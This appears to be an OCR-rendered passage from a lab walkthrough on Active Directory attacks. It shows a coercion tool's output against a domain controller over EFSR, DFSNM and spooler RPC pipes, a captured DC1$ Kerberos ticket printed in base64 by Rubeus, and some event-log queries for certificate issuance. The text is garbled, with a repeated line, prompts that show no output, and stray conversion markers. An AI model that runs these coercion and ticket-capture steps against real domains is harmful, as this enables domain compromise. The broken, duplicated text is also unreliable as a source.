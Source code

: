 ```bash
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... rpc_s_access_denied
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... ERROR_BAD_NETPATH (Attack has worked!)
   [>] Pipe '\PIPE\netdfs' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsAddStdRoot' (opnum 12) ... rpc_s_access_denied (Attack should have worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...    [>] Pipe '\PIPE\spoolss' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\spoolss' targeting 'MS-RPRN::RpcRemoteFindFirstPrinterChangeNotificationEx' (opnum 65) ... rpc_s_access_denied (Attack should have worked!)

[+] All done!
```

Now, if we switch to WS001 and look at the continuous output that `Rubeus` provide, there should be a TGT for DC1 available:
```PowerShell
[*] 18/12/2022 22.55.52 UTC - Found new TGT:

  User                  :  DC1$@EAGLE.LOCAL # <-------
  StartTime             :  18/12/2022 23.30.21
  EndTime               :  19/12/2022 09.30.21
  RenewTill             :  24/12/2022 09.28.39
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFdDCCBXCgAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0    GwtFQUdMRS5MT0NBTKOCBDowggQ2oAMCARKhAwIBAqKCBCgEggQkv8ILT9IdJgNgjxbddnICsd5quqFnXS7m7YwJIM/lcwLy4SHI
i1iWbvsTiu078mz28R0sn7Mxvg2oVC7NTw+b2unvmQ3utRLTgaz02WYnGWSBu7gxs+Il/0ekW5ZSX3ESq0AGwPaqUcuWSFDNNfOM
ws/8MlkJeFSFWeHwJL7FbzuCjZ2x/6UUl2IOYq0Ozaf3R+rDJQ6LqpDVAet53IoHDugduBfZoDHTZFntRAoYrmAWdcnFdUEpyZGH    Kj6i2M0TyrxUp3nq022BNB6v+sHgH3SWsMNiba+TYaeRdjiM2nVjhGZTXDuro9rLkYFk1HPXuI/d0RfzVuq9Hh5hVCZRwcM3V2BN
eYRTMeW+lvz1bBgdgK/wlYMS7J99F1V/r6K8zdO7pQ0Zj216DfA42QINPswVL+89gy7PLLm5aYlw8nlbBdvTZrPbeOhtvdBy/pFB    fxrjHA+fW34/Yk+9k6oSPXCaCQ/Rd1qZ/P57/0MDUYRlDs5EYOOxxGQPVFbOqhbG414vGRbi39ALj/MkYG629kCEb9K89p5teo6f
7w/4M6Ytun16sG3GxsWDG6dlZP+fmmOr0nwdXgvT28NQxQ3EEMErX+BojUY6DdRBH2u3fcv1KOA5K7MDma+cVLaa0YjSYZ2IDRaC    0JcgcUexd6EfQPtSnikaA/zzYmu/PSYVXlcg7cFULJIiPuN4f9VlDlVOqj8C3xCwtYo4zRklLESUES9tGK/VfsmN0Q/Fx5ULIa7y
UND/d1HlQ+R6Fnh2GGUPk+LlVw+ScD0kf2nmmlsIwhnGmscpiFs1lprX35Khlx/y5+v9S7bdokZujPpyZactQ4wdfRK++bOWo2ao    Ewrzjuq199JnTQHbxkqGgeKQedOPxOhDccQLYTm44wH73JuE+XoGKmdGbgXfjSBFlTinP9mvZA12NkQupnGYVzJ2rS1T0nf2VVUW
MfIgh8Nz4xYvDHV1iIV4ZrLI7u7ZwJtrlESgO0H0d/k6CpLxo5L7kzhkU+MJggdUFJvS3HskTxZmewEwSdKJn21YfAG1Q6X0nFqk
HdK3RUvxXcycwMvWdfYH2AW06+98q5h+TSJQrMcrp9gT+khLPD4KL2n6+cvC3BVHqge5Nc16LhW7kcNp+JcIzknwAsCZlaXzhz3X
K78ooLfZGaKGoNnDWLUQpYToVgXXSO53HJ3Vgl0MwctV7l+gJdwMtac0VVhH8EAndeSPnEcNOX8mr/30k+9GwM1wtFQNFB03CdoA    qRJBjyFw1h1KKuc61PTWuxVLwGmezshekwoSLOJ7V9G9qNpVQl0AgtTK2SHeobItuD4rhDc3/0jJ4LzsXJieYbLK7dtVfxYtSbeu
```

[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *
